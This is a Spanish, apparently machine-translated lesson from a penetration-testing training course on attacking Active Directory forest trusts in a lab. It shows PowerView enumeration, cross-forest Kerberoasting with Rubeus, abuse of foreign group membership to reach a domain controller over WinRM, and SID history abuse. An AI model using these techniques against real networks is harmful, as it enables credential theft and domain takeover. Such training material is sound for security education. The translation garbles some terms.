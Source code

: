 # Fideicomisos de dominio atacantes - Abuso de confianza de Forest -Forest - de Windows

---

## Kerberoasting

Los ataques de Kerberos como Kerberoasting y Asreproasting se pueden realizar entre los fideicomisos, dependiendo de la dirección del fideicomiso. En una situación en la que se coloca en un dominio con un dominio/fideicomiso bosque de entrada o base, es probable que pueda realizar varios ataques para obtener un punto de apoyo. A veces no puede aumentar los privilegios en su dominio actual, sino que puede obtener un boleto de Kerberos y romper un hash para un usuario administrativo en otro dominio que tiene privilegios de administración de dominio/empresa en ambos dominios.

Podemos utilizar PowerView para enumerar las cuentas en un dominio objetivo que tiene SPN asociados con ellas.

#### Enumerando cuentas para SPN asociados utilizando get-domainuser

  Fideicomisos de dominio atacantes - Abuso de confianza de Forest -Forest - de Windows

```powershell-session
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

Vemos que hay una cuenta con un SPN en el dominio objetivo. Una verificación rápida muestra que esta cuenta es miembro del grupo de administradores de dominio en el dominio objetivo, por lo que si podemos Kerberoast y descifrar el hash fuera de línea, tendríamos derechos de administrador completos del dominio objetivo.

#### Enumerando la cuenta MSSQLSVC

  Fideicomisos de dominio atacantes - Abuso de confianza de Forest -Forest - de Windows

```powershell-session
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

Realicemos un ataque de querberoasting en todo el fideicomiso usando`Rubeus`. Ejecutamos la herramienta como lo hicimos en la sección Kerberoasting, pero incluimos el`/domain:`marcar y especificar el dominio objetivo.

#### Realizar una querberoasting atacando con Rubeo usando la bandera de dominio

  Fideicomisos de dominio atacantes - Abuso de confianza de Forest -Forest - de Windows

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

Luego podríamos ejecutar el hash a través del hashcat. Si se rompe, ahora hemos ampliado rápidamente nuestro acceso a controlar completamente dos dominios aprovechando un ataque bastante estándar y abusando de la dirección de autenticación y la configuración de la confianza forestal bidireccional.

---

## Reutilización de contraseña de administrador y membresía de grupo

De vez en cuando, nos encontraremos con una situación en la que hay un fideicomiso forestal bidireccional administrado por los administradores de la misma compañía. Si podemos asumir el dominio A y obtener contraseñas ClearText o hashes NT para la cuenta de administrador incorporada (o una cuenta que forma parte del grupo de administradores empresariales o administradores de dominio en el dominio A), y el dominio B tiene una cuenta altamente privilegiada con el mismo nombre, entonces vale la pena verificar la reutilización de contraseñas en los dos bosques. De vez en cuando me encontré con problemas en los que, por ejemplo, el dominio A tendría un usuario nombrado`adm_bob.smith`en el grupo de administradores de dominio, y el dominio B tenía un usuario nombrado`bsmith_admin`. A veces, el usuario usaba la misma contraseña en los dos dominios, y poseer el dominio A instantáneamente me dio derechos de administrador completos al dominio B.

También podemos ver usuarios o administradores del dominio A como miembros de un grupo en dominio B. Solo`Domain Local Groups`Permitir directores de seguridad desde fuera de su bosque. Podemos ver un administrador de dominio o administrador empresarial del dominio A como miembro del grupo de administradores incorporados en el dominio B en una relación de confianza forestal bidireccional. Si podemos asumir este usuario administrador en el dominio A, obtendríamos acceso administrativo completo al dominio B basado en la membresía del grupo.

Podemos usar la función PowerView[Get Domain Foreign Groupmember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember)enumerar grupos con usuarios que no pertenecen al dominio, también conocido como`foreign group membership`. Probemos esto contra el`FREIGHTLOGISTICS.LOCAL`dominio con el que tenemos un fideicomiso forestal bidireccional externo.

#### Usar get-domain foreigngroupMember

  Fideicomisos de dominio atacantes - Abuso de confianza de Forest -Forest - de Windows

```powershell-session
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

La salida del comando anterior muestra que el grupo de administradores incorporados en`FREIGHTLOGISTICS.LOCAL`tiene la cuenta de administrador incorporada para el`INLANEFREIGHT.LOCAL`dominio como miembro. Podemos verificar este acceso utilizando el`Enter-PSSession`Cmdlet para conectarse a través de WinRM.

#### Acceder a DC03 usando Enter-PSSession

  Fideicomisos de dominio atacantes - Abuso de confianza de Forest -Forest - de Windows

```powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```

De la salida del comando anterior, podemos ver que nos autenticamos con éxito al controlador de dominio en el`FREIGHTLOGISTICS.LOCAL`dominio utilizando la cuenta de administrador desde el`INLANEFREIGHT.LOCAL`dominio a través de la confianza bosque bidireccional. Esto puede ser una victoria rápida después de tomar el control de un dominio y siempre vale la pena verificar si una situación de confianza forestal bidireccional está presente durante una evaluación y el segundo bosque está en el alcance.

---

## Abuso de la historia de SID - Cross Forest

La historia de SID también puede ser abusada en una confianza forestal. Si un usuario se migera de un bosque a otro y el filtrado SID no está habilitado, es posible agregar un SID del otro bosque, y este SID se agregará a la ficha del usuario cuando se autentica en todo el fideicomiso. Si el SID de una cuenta con privilegios administrativos en el bosque A se agrega al atributo de Historial SID de una cuenta en Forest B, suponiendo que puedan autenticarse en todo el bosque, esta cuenta tendrá privilegios administrativos al acceder a recursos en el bosque socio. En el siguiente diagrama, podemos ver un ejemplo del`jjones`el usuario que se migera del`INLANEFREIGHT.LOCAL`dominio al`CORP.LOCAL`dominio en un bosque diferente. Si el filtrado SID no se habilita cuando se realiza esta migración y el usuario tiene privilegios administrativos (o cualquier tipo de derechos interesantes, como entradas ACE, acceso a acciones, etc.) en el`INLANEFREIGHT.LOCAL`dominio, luego conservarán sus derechos administrativos/acceso en`INLANEFREIGHT.LOCAL`mientras es miembro del nuevo dominio,`CORP.LOCAL`en el segundo bosque.

![image](https://academy.hackthebox.com/storage/modules/143/sid-history.png)

Este ataque se cubrirá en profundidad en un módulo posterior que se centra más en atacar los fideicomisos de anuncios.

---

## Adelante

A continuación, atravesamos algunos ejemplos de atacar a través de una confianza forestal de un anfitrión de ataque de Linux.